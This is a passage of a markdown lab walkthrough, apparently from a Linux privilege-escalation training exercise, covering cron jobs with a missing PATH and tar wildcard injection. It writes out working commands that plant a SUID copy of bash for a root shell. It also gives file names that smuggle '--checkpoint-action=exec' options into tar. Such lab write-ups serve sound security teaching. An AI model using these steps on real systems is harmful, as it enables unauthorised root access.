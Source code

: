 1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “PATH” variable.

```
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

**Exploitation**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

![Cron-NoPATH](/Images/linux_privesc_arena/cron1.png)




## Cron (Wildcards)


1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “/usr/local/bin/compress.sh”
3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (*) used by ‘tar’.

![Cron-Wildcard](/Images/linux_privesc_arena/cron-wildcard1.png)


**Exploitation**

1. In command prompt type:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Wait 1 minute for the Bash script to execute.
5. In command prompt type: `/tmp/bash -p`
6. In command prompt type: `id`

![Cron-Wildcard](/Images/linux_privesc_arena/cron-wildcard2.png)
